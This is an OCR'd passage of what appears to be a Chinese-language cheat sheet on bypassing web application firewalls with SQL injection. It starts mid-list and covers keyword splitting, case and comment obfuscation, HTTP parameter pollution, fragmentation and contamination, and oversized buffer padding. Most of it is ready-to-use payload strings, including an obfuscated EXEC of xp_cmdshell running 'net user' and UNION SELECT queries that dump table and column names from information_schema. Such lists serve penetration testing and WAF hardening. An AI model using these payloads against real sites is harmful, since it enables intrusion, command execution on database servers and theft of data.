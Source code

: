 	示例
	
		‘se’+’lec’+’t’   
		%S%E%L%E%C%T 1   
		1.aspx?id=1;EXEC(‘ma’+'ster..x’+'p_cm’+'dsh’+'ell ”net user”’)  
		' or --+2=- -!!!'2   
		id=1+(UnI)(oN)+(SeL)(EcT)	////另 Access中,”[]”用于表和列,”()”用于数值也可以做分隔
		select-count(id)test from users;  //绕过空格限制

7. HTTP参数控制  
	通过提供多个参数=相同名称的值集来混淆WAF。例如 http://example.com?id=1&?id=’ or ‘1’=’1′ — ‘在某些情况下(例如使用Apache/PHP)，应用程序将仅解析最后(第二个) id= 而WAF只解析第一个。在应用程序看来这似乎是一个合法的请求，因此应用程序会接收并处理这些恶意输入。如今，大多数的WAF都不会受到HTTP参数污染(HPP)的影响，但仍然值得一试。

	+ HPP(HTTP Parameter Polution))

			/?id=1;select+1,2,3+from+users+where+id=1—   
			/?id=1;select+1&amp;id=2,3+from+users+where+id=1—   
			/?id=1/**/union/*&amp;id=*/select/*&amp;id=*/pwd/*&amp;id=*/from/*&amp;id=*/users 
		HPP又称做重复参数污染，最简单的就是?uid=1&uid=2&uid=3，对于这种情况，不同的Web服务器处理方式如下：

	+ HPF(HTTP Parameter Fragment)

		这种方法是HTTP分割注入，同CRLF有相似之处(使用控制字符%0a、%0d等执行换行)

		/?a=1+union/*&amp;b=*/select+1,pass/*&amp;c=*/from+users--   
		select * from table where a=1 union/* and b=*/select 1,pass/* limit */from users— 

	+ HPC(HTTP Parameter Contamination)

		这一概念见于exploit-db上的paper：Beyond SQLi: Obfuscate and Bypass，Contamination同样意为污染
		RFC2396定义了以下字符：
		Unreserved: a-z, A-Z, 0-9 and _ . ! ~ * ' () 
		Reserved : ; / ? : @ &amp; = + $ , 
		Unwise : { } | \ ^ [ ] ` 
		不同的Web服务器处理处理构造得特殊请求时有不同的逻辑：
		以魔术字符%为例，Asp/Asp.net会受到影响



8. 缓冲区溢出

	WAF和其他所有的应用程序一样也存在着各种缺陷和漏洞。如果出现缓冲区溢出的情况，那么WAF可能就会崩溃，即使不能代码执行那也会使WAF无法正常运行。这样，WAF的安全防护自然也就被瓦解了。

		?id=1 and (select 1)=(Select 0xA*1000)+UnIoN+SeLeCT+1,2,version(),4,5,database(),user(),8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26 

9. 整合绕过

	当使用单一的方式无法绕过时，我们则可以灵活的将多种方式结合在一起尝试。

		target.com/index.php?page_id=-15+and+(select 1)=(Select 0xAA[..(add about 1000 "A")..])+/*!uNIOn*/+/*!SeLECt*/+1,2,3,4…   

		id=1/*!UnIoN*/+SeLeCT+1,2,concat(/*!table_name*/)+FrOM /*information_schema*/.tables /*!WHERE */+/*!TaBlE_ScHeMa*/+like+database()– -   

		?id=-725+/*!UNION*/+/*!SELECT*/+1,GrOUp_COnCaT(COLUMN_NAME),3,4,5+FROM+/*!INFORMATION_SCHEM*/.COLUMNS+WHERE+TABLE_NAME=0x41646d696e-- 
